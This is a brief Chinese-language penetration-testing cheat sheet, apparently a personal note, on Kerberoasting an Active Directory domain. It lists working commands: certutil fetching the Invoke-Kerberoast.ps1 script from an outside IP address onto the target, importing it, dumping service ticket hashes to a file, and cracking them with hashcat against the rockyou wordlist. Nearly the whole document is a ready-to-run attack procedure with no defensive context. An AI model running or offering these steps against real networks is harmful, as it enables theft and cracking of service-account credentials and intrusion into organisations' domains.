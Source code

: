 # \*Kerberoasting

**提取**

```go
1. 传输（有时候不好用用别的传输也行）
certutil.exe -urlcache -split -f http://192.168.119.188/Invoke-Kerberoast.ps1 C:\users\Nathan\Invoke-Kerberoast.ps1 
2. 导入模块（cmd以及ps）
import-module ./Invoke-Kerberoast.ps1
powershell下如此导入
. .\powercat.ps1
3. 提取到hash.txt
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hash.txt
```

**爆破**

```go
hashcat -m 13100 --force -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

只推荐hashcat，john不太行
